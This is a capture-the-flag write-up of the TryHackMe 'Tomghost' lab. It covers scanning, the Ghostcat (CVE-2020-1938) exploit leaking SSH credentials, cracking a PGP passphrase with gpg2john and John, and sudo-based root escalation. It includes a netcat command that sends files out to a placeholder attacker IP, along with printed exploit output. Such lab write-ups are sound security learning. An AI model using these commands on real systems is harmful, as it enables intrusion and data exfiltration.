

<h2 class="menu-header" id="main">
<a href="https://github.com/Mithlonde/Mithlonde">Root</a>&#xA0;&#xA0;&#xA0;
<a href="https://github.com/Mithlonde/Mithlonde/blob/main/blog/index.md">Blog</a>&#xA0;&#xA0;&#xA0;
<a href="https://github.com/Mithlonde/Mithlonde/blob/main/projects/index.md">Projects</a>&#xA0;&#xA0;&#xA0;
<a href="https://github.com/Mithlonde/Mithlonde/blob/main/all-writeups.md">Writeups</a>&#xA0;&#xA0;&#xA0;
<a href="https://github.com/Mithlonde/Mithlonde/blob/main/thm/2022-02-09-tomghost.md">~/Tomghost</a>&#xA0;&#xA0;&#xA0;
</h2>

# 👾 Mithlonde
└─$ cat writeups/thm/tomghost.md


*https://tryhackme.com/room/tomghost*<br />
`Linux` `Apache Tomcat` `CVE-2020-1938` `gpg2john` `Sudo`

<br />

## Platform CTF Writeup: Box
- [Summary](#summary)
- [1. Enumeration](#1-enumeration)
  - [1.1 Nmap](#11-nmap)
  - [1.2 Gobuster](#12-gobuster)
- [2. Exploitation](#2-exploitation)
- [3. Post Exploitation](#3-post-exploitation)
  - [3.1 User Flag](#31-user-flag)
  - [3.2 Privilege Escalation](#32-privilege-escalation)
  - [3.3 Gpg2john](#33-gpg2john)
  - [3.4 Root Flag](#34-root-flag)
- [4. Conclusion](#4-conclusion)
- [References](#references)

# Walkthrough

### Summary:

As a cybersecurity enthusiast, I'm always looking for new challenges to test my skills. The Tomghost room on TryHackMe provided me with just that, with a focus on exploiting a vulnerability in Apache Tomcat. This room challenged me to use my knowledge of Linux, and learn more about password cracking to gain access to a vulnerable system.

Throughout this room, I was able to gain a deeper understanding of how to identify and exploit vulnerabilities in web servers, particularly in Apache Tomcat. I used CVE-2020-1938, a known vulnerability in Tomcat, to gain initial access to the system. From there, I utilized a variety of techniques, including gpg2john and Sudo privilege escalation, to gain root access and complete the challenge.

## 1. Enumeration 

### 1.1 Nmap:<a name="11-nmap"></a>

We begin our reconnaissance by running an Nmap scan checking default scripts and testing for vulnerabilities.

-   **-sV**: detect service version
-   **-sC**: run default nmap scripts
-   **-T4**: sets aggressive timing options for faster scanning
-   **-oN**: write output to nmap file


From the above output we can see that several ports are open. **Port 8080** caught my eye straight away since it running an Apache Tomvat server and also returns a http-title, and well since this CTF is called Tomghost and the avatar is a Ghostcat it seems quite obvious that we should go there.


### 1.2 Gobuster:<a name="12-gobuster"></a>

```
mkdir gobuster && gobuster dir -u http://10.10.20.171:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -z -o gobuster/initial

/manager              (Status: 302) [Size: 0] [--> /manager/]
```

- **-u**: specify the target URL to scan
- **-w**: use the specified wordlist to brute-force the directories/files
- **-z**: don't display progress
- **-o**: output the results to a file

Running gobuster we end up with a /manager page where we see something interesting. So assuming we can initiate some kind of exploit to find sensitive credentials, we know what kind of exploits to look for.


Now we know for sure that Tomcat is running as a type of web server, we know where to look for possible exploits.


See how Ghostcat stands out here? Again, this is an obvious path to choose whilst there is no exploit found specifically for the 9.0.30 version.

We can download the exploit here or searching for the full pwd through searchsploit: https://www.exploit-db.com/exploits/48143.

---
## 2. Exploitation

+ **So how does this work?** 

>CVE-2020-1938 'Ghostcat'
>
>If the AJP port is exposed, Tomcat might be susceptible to the Ghostcat vulnerability. Here is an [exploit](https://www.exploit-db.com/exploits/48143) that works with this issue.
>
>Ghostcat is a LFI vulnerability, but somewhat restricted: only files from a certain path can be pulled. Still, this can include files like `WEB-INF/web.xml` which can leak important information like credentials for the Tomcat interface, depending on the server setup.
>
>Patched versions at or above 9.0.31, 8.5.51, and 7.0.100 have fixed this issue.
>
>**Source**: https://book.hacktricks.xyz/pentesting/8009-pentesting-apache-jserv-protocol-ajp#cve-2020-1938-ghostcat

According to the source above some Tomcat versions are vulnerable, thus there are ways to detect the Ghostcat vulnerability. The Manual way is per Nmap, which we have done already through our initial scan. The <9.0.30 versions are vulnerable.


Since the python script has already been set to read the **WEB-INF/web.xml** file over **port 8009**, we can simply run the script by adding our target IP.

```
┌──(mithlonde💀kali)-[~/ctf/tryhackme/tomghost]
└─$ python ghostcat.py 10.10.20.171   
Getting resource at ajp13://10.10.20.171:8009/asdf
----------------------------
...
  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
        skyfuck:8730281lkjlkjdqlksalks
  </description>
</web-app>
```

Looks like it retrieved some credentials we can use to use to login via SSH.


Now that we have an initial shell on this machine as user, we can further enumerate the machine and escalate our privileges to root.

---
## 3. Post Exploitation

### 3.1 User Flag:<a name="31-user-flag"></a>

We continue compromising this machine to obtain the user.txt by some initial enumeration.

As always we have a look around and check to see what else is in the /home folder. In this case there is another user folder called **merlin** withholding the user flag.


### 3.2 Privilege Escalation:<a name="32-privilege-escalation"></a>

The privilege escalation for this box was not hard but interesting. During our initial reconnaissance, we found that a previous user had downloaded two files from another IP address. Our analysis of the history command revealed that these files appeared to be a PGP private key.


Further investigation led us to use the cat command on the .asc file containing the PGP private key block. This provided us with more detailed information about the key and its contents.


Subsequently, we attempted to use this key to cat the **credential.pgp** file. Although we were able to read it as the output appeared to be gibberish, likely due to the encoding of the file. Despite this setback, we continued to search for other avenues for privilege escalation.


Further enumeration shows we do not have sudo (`-l`) access, meaning we are not able to exploit the sudo version per CVE-2019-14287. I always check this with `sudo -V`. This exploit has been fixed, but may still be present in older versions of Sudo (versions < 1.8.28), so it's well worth keeping an eye out for. 

We can't write to the /etc/passwd file nor have read access to /etc/shadow. Nor are there any exploitable SUID bits set, writable cronjobs or possible escalation via capabilities.

So here I realized I should go back to the credential.pgp and tryhackme.asc files found earlier. The .asc file seems to be the encryption key that might be used to decrypt the .pgp file. 

### 3.3 Gpg2john:<a name="33-gpg2john"></a>

Normally we would be able to decrypt a file like this using the following commands.

```
#Import the key:
gpg --import key.asc
#Decrypt the file:
gpg --decrypt file.pgp
```
However, since we do not have the passphrase required. We will ask the good ole John to crack it on our attacking machine (https://www.openwall.com/lists/john-users/2015/11/17/1).

But first, we need to use Netcat to exfiltrate the files to our own machine in order to this.

```
#Start listener on attacker machine
nc -lvnp 4444 > filename
#Exfiltrate via target machine
nc -vn <Attacker IP> 4444 < filename
```


+ **John**:

```
┌──(mithlonde💀kali)-[~/ctf/tryhackme/tomghost]
└─$ gpg2john tryhackme.asc > password

File tryhackme.asc

┌──(mithlonde💀kali)-[~/ctf/tryhackme/tomghost]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt password
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG
...
alexandru        (tryhackme)     
...
cracked passwords reliably
Session completed. 
```
And there we have the password for the **credentials.pgp** file.

Back on the target machine we now decrypt the file and switch user to merlin.


### 3.4 Root Flag:<a name="34-root-flag"></a>

The privilege escalation process for this segment did not pose a significant challenge. Upon performing a sudo -l command, we ascertained that we had the ability to execute zip as a root user. This presented an opportunity to elevate our privileges and gain access to the root flag.





---
## 4. Conclusion 

In conclusion, the Tomghost room on TryHackMe provided an excellent opportunity to explore and practice exploiting a vulnerability in Apache Tomcat.

During the initial scan of the Tomghost machine, we discovered that three ports were open including 22, 8009 and 8080. We then focused our attention on exploiting the Tomcat version, and upon examining the exploit code, we identified the login credentials for an SSH user without sudo privileges.

Through a thorough history check and enumeration process, we were able to easily obtain the user flag and identify additional sensitive files, although we failed to obtain the passphrase needed to unlock them. We then downloaded the files to our local machine and utilized John to crack the .asc file, eventually gaining access to the password required to decrypt the .pgp file.

This file provided us with the password to switch to a secondary user on the SSH server who had sudo privileges. We were then able to escalate our privileges through sudo shell escaping and successfully achieved root access, enabling us to access the root flag and conclude our privilege escalation on the machine.

<div style="text-align:center">
    
</div>

---
## References
1. https://tryhackme.com/room/tomghost
2. https://www.exploit-db.com/exploits/48143
3. https://book.hacktricks.xyz/pentesting/8009-pentesting-apache-jserv-protocol-ajp#cve-2020-1938-ghostcat
4. https://www.openwall.com/lists/john-users/2015/11/17/1
